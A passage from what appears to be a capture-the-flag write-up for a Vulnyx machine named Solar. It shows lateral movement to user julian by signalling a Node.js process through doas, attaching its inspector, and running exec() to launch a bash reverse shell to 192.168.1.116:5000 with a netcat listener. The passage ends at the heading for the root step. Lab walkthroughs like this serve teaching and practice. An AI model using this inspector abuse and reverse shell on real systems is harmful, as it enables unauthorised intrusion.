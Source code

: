 We kill the process and then try accessing the `nodejs` inspector.

```bash
lenam@solar:~$ doas -u julian /bin/kill -s SIGUSR1 $(pgrep "node") && /home/julian/.nvm/versions/node/v22.7.0/bin/node inspect localhost:9229
doas (lenam@solar) password: 
connecting to localhost:9229 ... ok
debug> 
```

We can access the inspector and send commands to the application's process using `exec()`. This will work for a while until the process is restarted (approximately every 2 minutes); after that, we need to exit the inspector with `.exit`.

We listen with `netcat` on our machine.

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/SOLAR/test]
└─$ nc -lvnp 5000 
listening on [any] 5000 ...
```

On the server, we run the previous command to enter the `nodejs` inspector.

```bash
lenam@solar:~$ doas -u julian /bin/kill -s SIGUSR1 $(pgrep "node") && /home/julian/.nvm/versions/node/v22.7.0/bin/node inspect localhost:9229
doas (lenam@solar) password: 
connecting to localhost:9229 ... ok
debug> 
```

Quickly, without waiting too long, we enter in the debugger:

```javascript
debug> exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/192.168.1.116/5000 0>&1\"')")
```

We obtain a `revshell` with the `julian` user.

![revshell julian](../../assets/images/solar/image-19.png)

## From julian to root

